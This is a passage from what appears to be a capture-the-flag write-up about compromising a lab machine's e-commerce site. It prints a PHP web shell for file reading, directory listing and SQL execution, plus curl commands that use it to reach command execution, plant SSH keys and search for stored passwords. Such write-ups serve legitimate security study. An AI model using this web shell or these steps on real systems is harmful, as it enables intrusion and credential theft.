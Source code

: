 This means that we can connect to the database and run Database commands using our file upload abilities. I used other machine's PHP SQL connection as a syntax of how to write this.

{% code overflow="wrap" %}
```python
files = {
        'vqmod': (rand + ".php", "<?php if (isset($_REQUEST['file'])) {  echo file_get_contents($_REQUEST['file']);} if (isset($_REQUEST['dir'])) {print_r(scandir($_REQUEST['dir']));}  if (isset($_REQUEST['db'])) { $conn = new mysqli('localhost', 'root', 'changethis', 'ecom') or exit; $req = mysqli_query($conn, $_REQUEST['db']); while ($row = $req->fetch_row()) { foreach ($row as $x){echo $x;} echo '\n'; } } ?>", "application/xml"),
        'token':one,
        'upload':(None,"Upload")
    }
```
{% endcode %}

Then, we can test this:

```
$ curl -G --data-urlencode 'db=select @@version' http://10.129.71.208/shop/admin/../vqmod/xml/7FKEJ.php
5.7.30-0ubuntu0.18.04.1
```

Now that we have access to the database, we can actually use this for RCE with the `exec_cmd` command.

```
$ curl -G --data-urlencode 'db=SELECT exec_cmd("ls");' http://10.129.71.208/shop/admin/../vqmod/xml/7FKEJ.php -o test
$ cat test             
auto.cn
```

Using this, we can write to the `authorized_keys` file of the `mysql` user. Then, we can SSH in as the user.

<figure><img src="../../../.gitbook/assets/image (451).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sysadmin Creds

There's another user `sysadmin` on the machine. I scanned the entire home directory for files containing `password`.&#x20;

```
mysql@compromised:~$ grep -iRl 'password' ./ 2>/dev/null
./mysql/user.frm
./mysql/help_topic.ibd
./mysql/servers.frm
./mysql/help_keyword.ibd
./mysql/user.MYD
./mysql/slave_master_info.frm
./ecom/lc_settings.MYI
./ecom/lc_translations.MYI
./ecom/lc_customers.frm
./ecom/lc_users.frm
./ecom/lc_settings.MYD
./ecom/lc_translations.MYD
```